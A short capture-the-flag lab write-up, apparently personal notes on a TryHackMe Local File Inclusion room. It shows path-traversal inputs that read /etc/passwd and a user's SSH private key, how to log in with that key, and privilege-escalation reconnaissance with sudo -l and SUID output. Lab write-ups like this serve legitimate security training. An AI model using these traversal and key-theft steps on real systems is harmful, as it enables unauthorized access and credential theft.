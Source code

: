 # LFI Room
#pentest/tryhackme

## What
Teaches about Local File Inclusion and a bit of privilege escalation

## Walkthrough
Find the user `falcon` by going through `../../../etc/passwd`

Find their private key using: `../../../home/falcon/.ssh/id_rsa`

**Copy it and login though ssh:**
```
1. vim falcon_key and paste the id_rsa contents
2. chmod 600 falcon_key
3. ssh falcon@<machine-IP> -i falcon_key
```

**Fetch the user flag after logged in**
`~/user.txt`

**Privilege escalation time:**
[Linux Privilege escalation](https://blog.mzfr.me/linux-priv-esc)
[GTFOBins](https://gtfobins.github.io/) -> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

**Check for SUDO rights**
```
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
````

This mean that current user falcon can run journalctl as root without password.

**Finding SUIDs (programs that run as sudo)** 
```
find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/at
/usr/bin/newgidmap
/bin/fusermount
/bin/mount
/bin/ping
/bin/umount
/bin/su
```